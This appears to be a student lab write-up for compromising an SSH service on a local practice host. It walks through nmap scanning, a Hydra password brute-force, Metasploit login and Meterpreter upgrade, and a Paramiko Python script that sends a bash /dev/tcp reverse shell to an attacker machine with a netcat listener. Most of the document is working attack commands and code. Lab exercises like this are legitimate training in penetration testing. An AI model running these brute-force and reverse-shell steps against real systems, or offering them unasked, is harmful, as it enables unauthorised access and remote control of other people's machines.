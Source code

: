# Phase 1: Exploitation and Reverse Shell

## Task 1.1: Compromise the target using Metasploit

### Service Targeted
- **Service**: SSH (OpenSSH 6.6.1p1)
- **Vulnerable Credentials**: `vagrant:vagrant`

### Steps Followed:
1. **Reconnaissance**:
   ```bash
   nmap -sV -p22 192.168.142.131
   ```
   - Identified OpenSSH running on port 22

2. **Brute-Force with Hydra**:
   ```bash
   hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
   ```
   - Discovered working credentials: `vagrant:vagrant`

3. **Exploit with Metasploit**:
   ```
   sudo msfconsole
   use auxiliary/scanner/ssh/ssh_login
   set RHOSTS 192.168.142.131
   set USERNAME vagrant
   set PASSWORD vagrant
   run
   ```
   - SSH shell session established

4. **Upgrade to Meterpreter**:
   ```
   use post/multi/manage/shell_to_meterpreter
   set SESSION 1
   session 1 
   shell
   ```
   - Upgraded shell to Meterpreter session


## ✅ Task 1.2: Exploit via Custom Python Script

### Script Summary
- Used Python with Paramiko to automate SSH login and trigger a reverse shell.

### Python Script: `ssh_reverse_shell_1.2.py`
```python
import paramiko

target_ip = "192.168.142.131"
username = "vagrant"
password = "vagrant"
lhost="192.168.142.129"
lport = "4444"

payload = f"bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(target_ip, username=username, password=password)
client.exec_command(payload)

client.close()
```

### Listener on Attacker Machine
```bash
nc -lvnp 4444
```
- Successful reverse shell received.

---

📸 Screenshots to Include:
- Hydra output showing credentials found
- Metasploit SSH login success
- Meterpreter session after upgrade
- Netcat receiving reverse shell
- Python script execution

